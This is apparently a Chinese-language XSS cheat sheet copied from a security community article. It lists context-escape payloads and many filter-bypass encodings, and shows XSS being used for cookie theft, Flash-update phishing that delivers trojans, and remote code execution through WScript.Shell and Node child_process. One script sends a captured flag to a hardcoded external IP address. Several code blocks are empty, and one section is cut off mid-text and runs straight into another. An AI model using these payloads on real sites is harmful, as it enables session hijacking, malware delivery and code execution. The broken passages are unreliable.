






# 测试流程

## 01.F12查看数据输出点选择闭合方式

### 输出在属性里

例如输出的位置位于value属性中：

```js
<input value="[输出]" type=text>
```

我们可以选择直接闭合标签：

```js
">

// 输出后如下:
<input value="">" type=text>
```

如果 `< >` 被过滤的话可以换成选择使用事件来闭合属性，并将后面的引号注释掉或闭合：

```js
" autofocus onfocus=alert(1)//
" autofocus onfocus=alert(1) "

// 输出后如下:
<input value="" autofocus onfocus=alert(1)//" type=text>
```

还有一些特殊的场景，如：

```js
<input type="hidden" value="[输出]" />
<input value="[输出点]" type="hidden"/>
```

这里只能把input标签闭合，然后直接执行脚本，否则会因为type为hidden导致无法执行脚本。

### 输出在HTML标签之间

例如输出的位置如下：

```js
<div id="body">[输出]</div>
```

直接提交 `<script>alert(1)</script>` 即可触发XSS，但是当标签是不能执行脚本的标签时，如下面这几个：

- `<title></title>`
- `<textarea></textarea>`
- `<xmp></xmp>`
- `<iframe></iframe>`

那么就得先把那个标签闭合，然后在注入XSS语句，例如：

```js
</textarea><script>alert(1)</script>
```

### 输出在script标签之间

例如：

```js
<script>
    var x = "input";
</script>
```

可控位置在input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了：

```js
";alert(1)//

// 输出后如下:
<script>var x = "";alert(1)//";</script>
```


## 02.尝试插入比较正常的HTML标签

例如：`<a>`、`<b>`、`<i>`、`<u>` 等，来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。


## 03.尝试插入不闭合的标签

例如：`<a`、`<b`、`i>`、`u>`、` response数据包中
>
> Access-Control-Allow-Headers: X-Requested-With，说明了我们可以通过**XHR**请求来访问网站
>
> `XMLHttpRequest`是用于在后台与服务器交换数据。如果设置XHR请求网站，那么请头部必然会带有：`Origin:xxx`，则会被服务器视为同源访问

条件2

没有关闭debug模式，导致cookie回显


利用`location.href`重定向到vps，从而带出cookie

```js
<script>
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange=function(){
    if(xmlhttp.readyState==4){
        location.href='http://106.15.250.162:8888/?flag='+ xmlhttp.responseText.match('flag\\{(.\*?)\\}')[1]}};
    }
}
xmlhttp.open('GET','/index.php/treehole/view?id=',true);
xmlhttp.send('');
</script>
```

 

## CST--trace请求

TRACE 方法会返回原始请求报文，其中就包含了cookie

https://www.cnblogs.com/gaopei/p/11380349.html


## debug信息泄漏

比如phpinfo，thinkphp框架debug信息等


# 攻击面拓展

## 钓鱼

### 通过 XSS 盗取 Cookie

Cookie盗取是xss攻击中最实用也是最广泛的一种利用方式之一。我们知道Cookie是Web系统识别用户的身份和保存会话状态的主要机制，且是由服务器提供的、存储在客户端的一种数据。同时，对于cookie的操作十分的方便，我们可以通过Document对象访问Cookie。最简单的比如：`<script>alert(document.cookie)</script>` ，执行后会弹出当前页面的cookie信息。在目标没有“同源策略”的保护下，我们可以利用XSS盗取目标网站管理员的Cookie。

在一般的通用CMS下呢，为了通用模板的兼容性，许多CMS本身不会使用“同源策略”等其他手段来防护XSS漏洞，而是使用自建的过滤函数来处理，在这种情况下，一旦出现XSS漏洞，我们就可以直接获取目标的Cookie然后使用特定的方法来传输cookie。

这里，我们可以利用网上现成的或自己搭建的XSS平台来完成利用过程。

### Flash 弹窗钓鱼

- 项目一地址：https://github.com/Wileysec/adobe-flash-phishing-page

该项目是模仿的 Flash Player 中文官网的页面：

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094717-ce2b906e-bb68-1.png)

需要在index.html中的加入我们制作的木马的链接地址：

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094718-ce9bd752-bb68-1.png)

- 项目二地址：https://github.com/r00tSe7en/Flash-Pop

该项目是一个逼真的Flash更新提醒的弹窗，强迫症都会忍不住去点击下载的：

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094718-ced9a208-bb68-1.png)

找到flash.js，搜索链接“https://www.se7ensec.cn/”，将其改为我们制作的木马的链接地址，然后保存即可：

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094718-cefeb124-bb68-1.png)


## RCE

为了大大提升 XSS 的危害，我们可以利用 JavaScript 来执行系统命令。

### 使用 WScript.Shell 执行系统命令

#### 条件

- Internet Explorer 

- 在IE上打开设置中的Intertnet选项-“安全”-“自定义级别”-“对没有标记为安全的activex控件进行初始化和脚本运行-设置成启用，如下

  

WScript.Shell（Windows Script Host Runtime Library）是一个对象，对应的文件是C:/WINDOWS/system32/wshom.ocx，Wscript.shell是服务器系统会用到的一种组件。4这个对象可以执行操作系统外壳常用的操作，比如运行程序、读写注册表、环境变量等。简单使用如下：

```js
var shell = new ActiveXObject("WScript.Shell");
shell.run("calc.exe");
```


有时候为了 Bypass 也可以使用 `String.fromCharCode` 从 Ascii 来转化恶意代码：

```js

```

### 使用 child_process 执行系统命令

如果目标环境启用了 **NodeJS** 的话，我们也可以利用 NodeJS 的子进程（child_process）调用并执行系统命令：

```js


');">
```

能执行系统命令了，那么 XSS 在钓鱼攻击中的作用便大大提高了，我们完全可以利用 XSS 反弹 Shell 并上线 Metasploit 或 CS 。

### Xmind 2020 XSS  to RCE

漏洞利用很简单，在 “思维导图” 中输出 Payload：

```js

```

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094723-d1fa41ae-bb68-1.png)

切换到 “大纲” 中，按下一个功能键即可触发攻击：

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094724-d23097e0-bb68-1.png)

由于 Xmind 启用了 NodeJS 功能，所以我们可以利用 child_process 调用并执行系统命令。

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094724-d269b494-bb68-1.png)

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094725-d2c17756-bb68-1.png)


### 蚁剑的XSS to RCE 

https://github.com/AntSwordProject/antSword/issues/147

[浅谈蚁剑RCE - 先知社区](https://xz.aliyun.com/t/8167#toc-0)


# Bypass

## 绕过空格

当空格被过滤了时，我们可以用 `/` 来代替空格：

```js

```

也可以：

```js

```


## 绕过引号

```js
<script>alert(/xss/)</script>
<script>alert(`xss`)</script>
<script src=http://xxx/evil.js> </script>
```


## 绕过括号

- throw

```js

<a onmouseover="javascript:window.onerror=alert;throw 1">test</a>
```

- 反引号

```js
alert(1) == alert`1`
```


## 绕过关键字过滤

### 大小写绕过

```js
<sCRiPt>alert(1);</sCrIpT>

```

### 双写绕过

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

```js
<scr<script>ipt> alert("xss") </scr</script>ipt>
<scrscriptipt>alert(1);</scrscriptipt>

<imimgg srsrcc=x onerror=alert(1);>
```

### 字符串拼接绕过

#### 利用eval()函数

与PHP的eval()函数相同，JavaScript的eval()函数也可以计算 JavaScript 字符串，并把它作为脚本代码来执行。

```js


// 在js中，我们可以用反引号代替单双引号
```

#### 利用top

```html
<script>top["al"+"ert"](`xss`);</script>
<script>top["al"+"ert"]("xss");</script>
```


## 字符编码绕过

### HTML 实体编码

HTML 编码主要分为10进制和16进制，格式为以 `&#` 开头以分号 `;` 结尾（也可以不带分号）。

- `<a href=javascript:alert("xss")>test</a>`

```html
// 十进制
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;>test</a>

// 十六进制
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>

// 也可以不带分号
<a href=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x22&#x78&#x73&#x73&#x22&#x29>test</a>
```

- ``

```html
// 十进制


// 十六进制


// 也可以不带分号

```


### URL编码

我们可以并将src或href属性中的内容进行URL编码，当HTML解析器对src或href中的字符完成HTML解码后，接下来URL解析器会对src或href中的值进行URL解码。

```html
<a href="...">xx</a>

<iframe src="...">
```

下面给出几个实例。

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:%61%6c%65%72%74%28%22%78%73%73%22%29>test</a>
```

- `<iframe src=javascript:alert("xss")></iframe>`

```html
<iframe src="javascript:%61%6c%65%72%74%28%22%78%73%73%22%29"></iframe>
```

注意，伪协议头 `javascript:` 是不能进行编码的。这里就有一个URL解析过程中的一个细节了，即不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型，就会导致DOM节点中被编码的“javascript”没有被解码，当然不会被URL解析器识别了。就比如说 `http://www.baidu.com` 可以被URL编码为 `http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d`，但是不能把协议也进URL编码：`%68%74%74%70%3a%2f%2f%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d` 。

但是伪协议头 `javascript:` 可以进行HTML编码。

### Javascript 编码

我们可以将DOM节点中的内容转化为 Javascript 编码。当HTML解析产生DOM节点后，会根据DOM节点来做接下来的解析工作，比如在处理诸如 `<script>`、`<style>` 这样的标签时，解析器会自动切换到JavaScript解析模式，而 `src`、 `href` 后边加入的 javascript 伪URL，也会进入 JavaScript 的解析模式。

Javascript 中可以识别的编码类型有：

- Unicode 编码
- 八进制编码
- 十六进制编码

一般情况下我们使用Unicode编码的比较广泛，而八进制和十六进制只有在DOM环境或eval()等函数中才可以用。

#### Unicode 编码

- `<script>alert("xss")</script>`

```html
<script>\u0061\u006C\u0065\u0072\u0074("xss")</script>
<script>\u0061\u006C\u0065\u0072\u0074("\u0078\u0073\u0073")</script>
```

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("\u0078\u0073\u0073")>test</a>
```

但要注意，我们同样也不能对伪协议头 `javascript:` 进行 Javascript 编码。并且像圆括号、双引号、单引号这样的符号我们也不能进 Javascript 编码，但是能进行HTML编码。

#### 在DOM环境中的JavaScript编码

对于八进制编码和十六进制编码，与 Unicode 编码还是有区别，像下面的XSS向量是**不能直接执行的**：

- `<script>alert("xss")</script>`

```html
<script>\141\154\145\162\164("xss")</script>
```

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:\x61\x6c\x65\x72\x74("xss")>test</a>
```

如下图，插入之后没有任何反应：

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094714-cc651728-bb68-1.png)

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094714-cca61c3c-bb68-1.png)

要想让他们能够执行我们要将他们放在DOM环境中，即DOM型的XSS。

测试代码：

```html
<div id='s'>test</div>

<script>
    var search = "...";
    document.getElementById('s').innerHTML = search;
</script>
```

以上情况很多都是出现在你搜索后，显示你所查询的关键字，变量 `search` 是一个可控点，当我们查询一个XSS攻击向量后，变量 `search` 就会被赋值为这个XSS向量，从而插入到div标签中触发XSS，如下所示：

```html
<div id='s'>test</div>

<script>
    var search = "<iframe src=javascript:alert('xss')></iframe>";
    document.getElementById('s').innerHTML = search;
</script>
```

[](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094715-cce8331a-bb68-1.png)

此时如果过滤了 `<`、`>`、`'`、`"`、`&`、`%` 等等这些字符的话，我们便可以用JavaScript编码的方法将XSS向量全部编码，即 `<iframe src=javascript:alert('xss')></iframe>` 的以下编码都可以弹窗：

```html
// Unicode编码
\u003C\u0069\u0066\u0072\u0061\u006D\u0065\u0020\u0073\u0072\u0063\u003D\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003A\u0061\u006C\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003E\u003C\u002F\u0069\u0066\u0072\u0061\u006D\u0065\u003E

// 八进制编码
\74\151\146\162\141\155\145\40\163\162\143\75\152\141\166\141\163\143\162\151\160\164\72\141\154\145\162\164\50\47\170\163\163\47\51\76\74\57\151\146\162\141\155\145\76

// 十六进制编码
\x3c\x69\x66\x72\x61\x6d\x65\x20\x73\x72\x63\x3d\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3a\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29\x3e\x3c\x2f\x69\x66\x72\x61\x6d\x65\x3e
```

还有一种让八进制和十六进制编码的XSS攻击向量执行的方式便是将XSS向量放在某个能把字符串当做JavaScript代码来执行的函数里，比如eval()、setTimeout()、setInterval()等函数。如下示例：

- `<script>alert("xss")</script>`

```html
<script>eval("\141\154\145\162\164\50\42\170\163\163\42\51")</script>
```

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")>test</a>
```

- ``

```html

```

或者也可以直接将一整段js代码编码后放入eval()函数中执行。


### 混合编码

**混合编码就是对一个XSS向量同时进行多种编码，如下示例：**

- `<a href=javascript:alert("xss")>test</a>`

```html
// 对javascript:进行HTML编码, 对alert("xss")进行URL编码
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;%61%6c%65%72%74%28%22%78%73%73%22%29>test</a>

// 对javascript:进行HTML编码, 对alert进行Unicode编码
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
```

**也可以利用解码顺序进行混合编码，如下示例：**

- `<a href=javascript:alert("xss")>test</a>`

首先对“alert”进行JavaScript Unicode编码：

```html
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
```

然后再对 `\u0061\u006c\u0065\u0072\u0074` 进行URL编码：

```html
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34("xss")>test</a>
```

最后对标签中的 `javascript:%5c%75...%37%34("xss")` 整体进行HTML编码即可：

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```


### SVG：XSS的一个黑魔法

`<svg>`标签+html实体编码

```html
<svg><script>&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;</script>
<svg><script>alert&#40;1)</script>
<svg><script>alert&#40;1&#41;</script>
```


